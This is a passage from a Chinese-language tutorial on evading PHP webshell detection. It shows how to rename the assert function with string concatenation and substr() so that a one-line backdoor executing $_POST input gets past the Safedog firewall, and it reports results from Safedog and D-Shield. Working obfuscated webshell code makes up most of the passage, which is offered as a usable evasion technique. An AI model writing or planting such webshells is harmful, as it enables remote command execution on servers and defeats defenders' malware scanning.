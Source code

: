 ### 2.字符串变形

安全狗的规则非常死板，字符串相关函数简单变形一下关键词就可以绕过安全狗的检测了，D 盾的话要严格一点。PHP 内置了一些字符串函数，以下都可以过安全狗。

#### substr()

```php
substr(string,start,length)
```

substr() 函数返回字符串的一部分。

| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *string* | 必需。规定要返回其中一部分的字符串。                         |
| *start*  | 必需。规定在字符串的何处开始。**正数** - 在字符串的指定位置开始; **负数** - 在从字符串结尾开始的指定位置开始; **0** - 在字符串中的第一个字符处开始 |
| *length* | 可选。规定被返回字符串的长度。默认是直到字符串的结尾。**正数** - 从 *start* 参数所在的位置返回的长度; **负数** - 从字符串末端返回的长度 |

首先我们来一个基础的字符串拼接：

```php
<?php 
    $a = 'a'.'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']); 
?>
```

也许在很久以前这个是可以过 安全狗的，但是直接扑街了，检测结果如下：

| 安全狗                       | D盾                 |
| :--------------------------- | :------------------ |
| 1 个安全风险 assert 变量函数 | 级别 5 变量函数后门 |

此时我们使用 substr() 函数稍微截断一下：

```php
<?php 
    $a = substr('1a',1).'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>
```

![0MP7yn.png](https://s1.ax1x.com/2020/10/01/0MP7yn.png)

![0Mipl9.png](https://s1.ax1x.com/2020/10/01/0Mipl9.png)

此时是可以执行简单的命令的。因为临时用的 PHPStudy 环境，所以 D 盾没有完全发挥监控的作用，因为 D 盾得在 IIS 环境下测试才可以完全发挥功能，目前我们只临时用 D 盾做 Webshell 查杀的功能。

另外虽然此时这个 Webshell 已经免杀了，且也可以执行任意命令，但是如果我使用中国菜刀或者中国蚁剑之类的一句话客户端工具去连接的话，依然还是会被拦截的，这个涉及到蚁剑的自定义编码和解码器了，这个会在下文中单独介绍，目前这部分内容我们只研究基本的 Webshell 免杀

#### strtr()

```php
strtr(string,from,to)
```

